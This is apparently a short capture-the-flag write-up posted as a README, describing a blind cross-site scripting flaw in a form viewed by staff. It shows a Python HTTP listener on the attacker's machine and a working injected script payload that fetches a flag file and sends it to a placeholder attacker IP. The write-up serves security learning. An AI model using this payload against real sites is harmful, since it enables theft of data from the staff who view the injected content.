 # Blind-XSS-Script
This behavior introduces a Blind XSS vulnerability, as any malicious JavaScript injected through the form is executed on the staff’s side, potentially compromising sensitive data or functionality.
Exploitation Process

1. Setting Up the Listener

To capture the exfiltrated data, an HTTP server was set up on the attacker’s machine:
```html

python3 -m http.server 8000
```

This server listens for incoming requests, which will contain the sensitive data exfiltrated from the target.

2. Crafting the Exploit Payload

The goal of the exploit was twofold:

    Retrieve the flag located at http://127.0.0.1:8080/flag.txt.
    Exfiltrate the data to the attacker’s HTTP server.

The crafted payload was as follows:

## XSS Payloads
```html
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```


The payload first fetches the flag from the target server, encodes it to ensure safe transmission, and sends it to the attacker’s server via a GET request.

The flag.txt is base64 encoded. To decode it, you can use the terminal or visit dencode.com, paste your encoded string, and retrieve the flag.
